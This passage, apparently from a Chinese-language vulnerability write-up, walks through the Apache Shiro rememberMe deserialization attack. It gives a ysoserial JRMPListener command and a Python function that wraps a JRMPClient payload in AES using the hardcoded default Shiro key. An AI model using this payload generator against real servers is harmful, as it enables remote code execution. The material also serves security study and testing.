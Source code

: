 这个过程，账号登录的时候的一个流程。

![img](img/17.png)

走完全部流程，登录成功。

### 攻击方式验证

这里使用`ysoserial`做个攻击验证

执行命令弹出计算器

```java
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "command"
```

![img](img/18.png)

在1099端口开启监听，然后使用python实现对payload的加密解密

```python
# -*- coding: utf-8 -*-
# @Software : Pycharm
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


```